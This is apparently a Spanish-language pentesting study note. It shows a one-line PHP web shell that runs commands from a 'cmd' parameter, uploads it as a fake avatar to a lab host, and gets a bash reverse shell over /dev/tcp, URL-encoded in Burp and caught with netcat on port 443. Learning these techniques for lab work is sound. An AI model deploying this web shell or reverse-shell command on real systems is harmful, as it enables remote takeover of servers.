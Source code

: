 
Es una alternativa a [[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]]
Tenemos que crear un archivo en PHP le llamaremos `web_shell.php`
````php
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "<pre>";
?>
````

Igual que hacíamos anteriormente cuando lo creábamos con [[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]] y encontramos el directorio donde se subían los fichero aquí igual, tenemos que navegar a ese fichero.
Hacemos click en el fichero que hemos subido y desde la URL obtenemos la web shell
`http://192.168.1.19/uploads/avatar_jaime_web_shell.php`

Detrás de .php anadimos
`http://192.168.1.19/uploads/avatar_jaime_web_shell.php?cmd=` 

Y ya después del `=` podemos añadir cualquier comando.
Si queremos obtener acceso a la maquina mediante una reverse shell.
Utilizamos Burpsuite y en la parte de Decodcer pegamos el comando de la reverse shell.
![[Pasted image 20241212200427.png]]

Y usamos el siguiente comando para obtener la revrse shell
`bash -c "bash -i >& /dev/tcp/<IP_local>/443 0>&1"`

A la derecha del panel donde pone Encode As... Tenemos que seleccionar URL
Nos ponemos en escucha en el puerto 443 con [[NETCAT]]
`nc -lvnp 443`

Copiamos el comando codeado y lo añadimos después de `cmd=`
Obtendremos una reverse shell en nuestro [[NETCAT]]
